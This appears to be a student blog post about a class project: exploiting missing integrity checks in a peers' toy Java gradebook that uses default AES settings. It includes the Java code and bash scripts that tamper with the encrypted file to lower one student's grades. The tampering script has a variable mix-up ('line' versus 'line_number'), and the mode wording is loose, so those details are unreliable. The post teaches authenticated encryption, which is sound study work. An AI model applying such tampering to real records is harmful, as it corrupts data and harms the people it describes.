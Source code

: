 ```yaml
---
title: Exploiting a Security Vulnerability in a Java Program
---
```


## Overview

As the final project for a software/network security class I took during my sophomore year, I was given the task of finding security vulnerabilities in a gradebook program developed by my peers. It may be hard to follow this post (most of the source code had to be omitted), but the key lessons here are:

1. Always specify your parameters when encrypting data, do not use defaults!
2. Use some kind of authenticated encryption scheme when you want to detect tampering.

**Disclaimer: This vulnerability was found in a "toy" Java program, and is simply an example of poor programming practices. Do not try to exploit a program without explicit permission from the developer(s).**


## Gradebook Implementation

### Gradebook Encryption and Decryption

```java
private byte[] encryptData(String data, String keyString) throws IOException {
    try {
      byte[] keyBytes = Base64.getDecoder().decode(keyString);
      SecretKeySpec secretKey = new SecretKeySpec(keyBytes, "AES");
      Cipher cipher = Cipher.getInstance("AES");
      cipher.init(Cipher.ENCRYPT_MODE, secretKey);
      return cipher.doFinal(data.getBytes(StandardCharsets.UTF_8));
    } catch (Exception e) {
      throw new IOException("Error while encrypting data", e);
    }
  }

  private String decryptData(byte[] encryptedData, String keyString) throws IOException {
    try {
      byte[] keyBytes = Base64.getDecoder().decode(keyString);
      SecretKeySpec secretKey = new SecretKeySpec(keyBytes, "AES");
      Cipher cipher = Cipher.getInstance("AES");
      cipher.init(Cipher.DECRYPT_MODE, secretKey);
      byte[] decryptedBytes = cipher.doFinal(encryptedData);
      String decryptedData = new String(decryptedBytes, StandardCharsets.UTF_8);
      return decryptedData;
    } catch (Exception e) {
      throw new IOException("Error while decrypting data", e);
    }
  }
```

### Gradebook Key Generation and Storage

```java
// KEY GENERATION
try {
    KeyGenerator keyGen = KeyGenerator.getInstance("AES");
    keyGen.init(256); // using 256 bits
    SecretKey secretKey = keyGen.generateKey();
    byte[] keyHash = hashKey(secretKey);
    if (keyHash == null) {
	    System.err.println("Failed to hash the key");
	    System.exit(255);
    }

    // Write the hash to the file
    try {
	    String keyHashString = Base64.getEncoder().encodeToString(keyHash);
        System.out.println("Base64 Encoded Hashed Key: " + keyHashString);
        Files.write(Paths.get(filename), (keyHashString + System.lineSeparator()).getBytes());
    } catch (IOException e) {
        System.err.println("Error writing key hash to file!");
	    e.printStackTrace();
	    System.exit(255);
    }

    // Convert key to String for display
    String encodedKey = Base64.getEncoder().encodeToString(secretKey.getEncoded());
    System.out.println("Key is " + encodedKey); // Print encoded key
    } catch (NoSuchAlgorithmException e) {
      System.err.println("Error generating keys!");
      e.printStackTrace();
      System.exit(255);
}
```

## The Vulnerability 

The manner in which hashed key values are handled by the gradebook program is extremely problematic. The hash value is placed at the very beginning of the ciphertext, which means an attacker can easily identify the hash value's location by examining the ciphertext, enabling them to modify the ciphertext without altering the hash value. Additionally, there's no integrity check using the hash value in the encryptData or decryptData functions, so this program fails to detect ciphertext tampering.

### Encrypted Gradebook File

```markdown
YBmzZqZNUyoiLdIOrjIFV6Cy4vyhLV6x2l8wFtkBozo=
l65415fAysfy12+49AtY/cHvdNcjLXERZRr9IUWEnK+ZvlO5H/X1nOh4y5eNDW/Iv+ycb15RbzLkd+DF/g1f5ZKeJNO48yRwVn7kDk3JT6+8vCy1qcTFXfPs9USH/ISUcUlCGRqoRuyRpEIl3qxg2Wo/K0fhkqIb44eTsSTdpvm5vgLyI7HW044dcihU00/av7atB1w6dYKCG7ai4+x/AWB0chxde1Z/hq/Db2GL9rL8aHomCLS5DlzVb+int0gbUE7/FMPS3DbRgqnbHetbzIbh/xKLb/vRj+6r0jt/BQGelZH+dpACZTXIe8Nk5TS9mFNfIBG1tHEpl6aTtI6jPx+eMKforCXXNmjJgcGD6+V6oTFs59UWW2DS1RW+xmTw
```

We can deduce that the first line of the encrypted gradebook is the hashed value of the key.

## The Exploit

Because we can modify the gradebook without being detected, let’s write some shell scripts to automate an attack.

### Creating a new Gradebook

This script will set up the environment for our attack by:

1. Creating a valid gradebook + key pair.
2. Filling the gradebook with valid student information.
3. Encrypting the data and writing it to a file.

```bash
#!/bin/bash


echo ""
echo ""


# Clean any previoulsy built files and make a fresh one
make clean
make

rm mygradebook
./setup -N mygradebook

# Ask the user the input the key generated by the program
echo ""
read -p "Input The Key Printed Above : " key
echo ""
echo "Key is: $key"
echo ""

./gradebookadd -N mygradebook -K $key -AS -FN John -LN Smith
./gradebookadd -N mygradebook -K $key -AS -FN Russell -LN Tyler
./gradebookadd -N mygradebook -K $key -AS -FN Ted -LN Mason


./gradebookadd -N mygradebook -K $key -AA -AN Midterm -P 100 -W 0.25
./gradebookadd -N mygradebook -K $key -AG -AN Midterm -FN John -LN Smith -G 95
./gradebookadd -N mygradebook -K $key -AG -AN Midterm -FN Russell -LN Tyler -G 80
./gradebookadd -N mygradebook -K $key -AG -AN Midterm -FN Ted -LN Mason -G 90

./gradebookadd -N mygradebook -K $key -AA -AN Final -P 200 -W 0.5
./gradebookadd -N mygradebook -K $key -AG -AN Final -FN John -LN Smith -G 180
./gradebookadd -N mygradebook -K $key -AG -AN Final -FN Russell -LN Tyler -G 190
./gradebookadd -N mygradebook -K $key -AG -AN Final -FN Ted -LN Mason -G 195

./gradebookadd -N mygradebook -K $key -AA -AN Project -P 50 -W 0.25
./gradebookadd -N mygradebook -K $key -AG -AN Project -FN John -LN Smith -G 48
./gradebookadd -N mygradebook -K $key -AG -AN Project -FN Russell -LN Tyler -G 49
./gradebookadd -N mygradebook -K $key -AG -AN Project -FN Ted -LN Mason -G 50


```

### Modifying the Gradebook

This script will initiate the attack by changing the 189th and 190th characters on the second line of the encrypted gradebook file to zeros.

```bash
#!/bin/bash

path="mygradebook"

line=2
position1=189
position2=190

# Substituting characters at positions 189 and 190 to corrupt assignment data.
# Any character substitution at positions 185 to 192 will result in Ted's
# final and midterm assignments being corrupted, so we are arbitrarily choosing
# two of these locations to ensure a successful attack.
sed -i "${line_number}s/./0/${position1}" "$path"
sed -i "${line_number}s/./0/${position2}" "$path"

echo ""
echo "Gradebook Exploited. Ted is now failing."
echo ""

```

### Displaying the Gradebook

This script will use the key to display the gradebook before and after the exploit.

```bash
#!/bin/bash

echo ""
read -p "Input The Key : " key
echo ""
echo "Key is: $key"
echo ""

echo "Grades of midterm:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PA -A -AN Midterm
echo ""

echo "Grades of project:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PA -A -AN Project
echo ""

echo "Grades of final:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PA -A -AN Final
echo ""

echo "Final grades:"
echo ""
./gradebookdisplay -N mygradebook -K $key -PF -G
echo ""

```

## The Result

This attack works because the gradebook program does not authenticate gradebook files properly. In the encryptData function, gradebooks are encrypted using AES without a specified CBC mode. The implementation does not explicitly include parameters for an AEAD mode like GCM, so we know that the encryption does not provide authenticity or integrity by default. Below are some screenshots of the exploit in action.

![Constructing the Gradebook](/images/gradebook-setup.png)

Notice how Ted has the best final grade before the exploit is executed.

![The Original Gradebook](/images/gradebook-initial.png)

Notice how Ted has a failing grade after the gradebook is modified.

![The Exploited Gradebook](/images/gradebook-exploit.png)

